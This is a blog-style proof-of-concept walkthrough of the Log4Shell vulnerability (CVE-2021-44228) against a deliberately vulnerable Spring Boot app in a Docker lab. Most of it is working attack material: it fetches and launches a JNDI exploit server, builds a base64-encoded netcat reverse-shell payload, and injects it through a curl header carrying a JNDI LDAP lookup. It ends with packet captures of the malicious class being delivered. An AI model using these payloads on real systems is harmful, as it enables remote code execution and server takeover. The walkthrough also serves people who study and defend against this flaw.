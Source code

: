 ```yaml
---
title: LOG4J Exploit - Revese Shell (CVE-2021-44228)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [Blogging]
tags: [CVE-2021-44228, Log4J]
math: true
mermaid: true
---
```

**Simple PoC against simple Java Springboot App** 

# LOG4J Exploit - Revese Shell (CVE-2021-44228)

## Setting up DOCKER "Victim" Java App w. LOG4J

Download the vulnerable App. [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)&#x20;

Kudos for making simple app to quickly test PoC! [ https://github.com/christophetd](https://github.com/christophetd)

App is very simple, based on Java Springboot and includes exactly what we need for PoC:

* vulnerable log4j (obviously)
* endpoint that writes to LOG4J log.

I chose to run the app in a docker container, basically ran exact commands written by https://github.com/christophetd/log4shell-vulnerable-app

```
git clone https://github.com/christophetd/log4shell-vulnerable-app`
```

Go into log4shell-vulnerable-app directory and build it

```
docker build . -t vulnerable-app
```

Run it

```
sudo docker run --name vulnerable-app --network="bridge" -p 8080:8080 vulnerable-app
```

![](/assets/images/2022-05-19-12-26-58.png)

If this `Victim` Server is up and running we can go to `Attacker`s machine

## Attacker's Machine - Getting Reverse Shell

Simple PoC would just see if there is DNS Request coming bit let's go one step further.

JNDI Exploit will be used https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2 which will run HTTP+LDAP Server.

```
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```

At this step of PoC `${jndi:ldap://kali/abc}` will be parsed from LOG4J and WILL issue JNDI (Java Naming and Directory Interface) request. JNDI Exploit will inject malicious class and respond to request of `Victim`s server.

Let's start the JNDI Exploit.

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

And let's craft an malicious reverse shell payload. Since i'm runing the App in docker, there is no bash installed (or at least i didn't install it manually) - keep that in mind!

Payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.142 4242 >/tmp/f" | base64 | tr -d "\n" && echo
```

(Encode `+` with `%2B`)

Let's put payload into Curl and inject it into `X-Api-Version` header. (It could be any header which get's logged using Log4J on that application!)

```bash
curl http://192.168.253.204:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.253.142:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo}'
```

If everything has been done right, reverse shell should pop (see tmux window in bottom right)&#x20;

![](/assets/images/2022-05-19-12-27-16.png)

## Packet Analysis

As you can see, there is also no "real" LDAP involed after initial Payload has been sent (i left that part out in the screenshot below.). There's just TCP and HTTP (what's missing is DNS - i used IP for my attacker's machine, therefore no DNS)

![](/assets/images/2022-05-19-12-27-29.png)

### Java Serialized packet sent to Attacker's "LDAP" Server

You can check below, that doesn't seem like normal LDAP Request does it?

```
0....`........0....a.
......0.....c.....Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo
..
.............objectClass0...0...2.16.840.1.113730.3.4.20..#...d......Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4yNTMuMTQyIDQyNDIgPi90bXAvZgo0..0..
javaClassName1...foo0...javaCodeBase1...http://192.168.253.142:8888/0$..objectClass1...javaNamingReference0"..javaFactory1...ExploitwXXEY4CzxK0....e.
......0"...B...0...2.16.840.1.113730.3.4.2
```

### Payload delivery

```
GET /ExploitwXXEY4CzxK.class HTTP/1.1
User-Agent: Java/1.8.0_181
Host: 192.168.253.142:8888
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 13 Dec 2021 08:01:48 GMT
Content-length: 1282

.......2.=...ExploitwXXEY4CzxK.....@com/sun/org/apache/xalan/internal/xsltc/runtime/AbstractTranslet......cmd...Ljava/lang/String;...<init>...()V...java/io/IOException..	.....
.......java/io/File..
..	separator.....	......./......java/lang/String......equals...(Ljava/lang/Object;)Z.....
......./bin/sh......-c........	........../C..!...[Ljava/lang/String;..#...java/lang/Runtime..%..
getRuntime...()Ljava/lang/Runtime;..'.(
.&.)...exec..(([Ljava/lang/String;)Ljava/lang/Process;..+.,
.&.-...printStackTrace../..
.
.0..	transform..r(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;[Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V..9com/sun/org/apache/xalan/internal/xsltc/TransletException..4...(Lcom/sun/org/apache/xalan/internal/xsltc/DOM;Lcom/sun/org/apache/xml/internal/dtm/DTMAxisIterator;Lcom/sun/org/apache/xml/internal/serializer/SerializationHandler;)V...<clinit>..Srm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.142 4242 >/tmp/f
..8...Code..
StackMapTable..
Exceptions.!.........
.................:...~.......M*..................Y...SY...SY....SL.......Y.. SY.."SY....SL..*+...W...M,..1....<.D.G.
...;........'............$J..
....2.3...:...
..............<.......5...2.6...:...
..............<.......5...7.....:.............9..........
```

Now, there are many posibilities for obfuscation. Perhaps attack's used in the wild wouldn't be so easy to reverse enginner.

